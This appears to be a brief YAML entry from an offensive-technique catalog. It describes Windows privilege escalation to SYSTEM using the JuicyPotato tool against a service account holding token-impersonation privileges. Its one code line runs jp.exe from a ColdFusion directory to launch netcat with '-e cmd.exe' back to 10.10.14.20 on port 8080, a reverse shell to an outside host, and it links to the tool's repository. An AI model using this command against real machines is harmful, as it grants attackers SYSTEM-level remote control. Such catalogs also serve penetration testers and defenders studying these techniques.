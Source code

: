 ```yaml
---
functions:
  privilege-escalation:
    - description: Leverage a service account with impersonatetoken  and assignprimarytoken to get system
      code: |
        C:\ColdFusion8\runtime\bin>jp.exe -t * -p nc.exe -a "10.10.14.20 8080 -e cmd.exe" -c {e60687f7-01a1-40aa-86ac-db1cbf673334} -l 13337
resources:
  https://github.com/ohpe/juicy-potato
  https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
---
```

